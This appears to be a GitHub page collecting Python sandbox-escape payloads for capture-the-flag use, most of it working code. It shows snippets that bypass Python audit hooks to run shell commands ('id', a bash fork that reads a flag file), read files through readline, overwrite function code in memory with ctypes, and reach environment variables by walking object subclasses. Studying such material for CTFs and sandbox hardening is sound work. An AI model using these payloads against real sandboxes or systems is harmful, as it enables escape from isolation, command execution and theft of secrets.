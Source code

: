 
### Triggered audits: `os.listdir`
```py
import _xxsubinterpreters as sub
s=sub.create()
sub.run_string(s, "import os; os.system('id')")
sub.destroy(s)
```
```py
import readline
readline.read_history_file("./flag")
print(readline.get_history_item(1))
```


## **Payloads**

### Auditless shell
```py
import _imp
x = lambda: None
x.name = '_posixsubprocess'
x.origin = None
s = _imp.create_builtin(x)
s.fork_exec([b'/bin/bash', b'-c', b'cat flag'], [b'/bin/bash'], True, (0,1), None, None, -1, -1, -1, -1, -1, -1, 0, 3, False, False, -1, None, None, -1, None)
```

### Replacing the code of a function (Auditless)
```py
from _ctypes import _SimpleCData
import sys

class c_byte(_SimpleCData):
    _type_ = "b"
c_byte.__ctype_le__ = c_byte.__ctype_be__ = c_byte

def ptr(obj):
    return (c_byte * sys.getsizeof(obj)).from_address(id(obj))

s = ptr(sys.exit)
b = ptr(print)

for i in range(len(b)):
    s[i] = b[i]

sys.exit("test")
```

### Get environment variables (1 local varname, stack size 1)
```py
x = object.__subclasses__
x = x()
x = x.pop
x()     # repeat 37 times (may vary depending on version and arch)
x = x() # os._wrap_close
x = x.__init__.__globals__.values
*x, = x()
x = x.pop
x()     # repeat 207 times (may vary depending on version and arch)
x = x() # os.environ
```
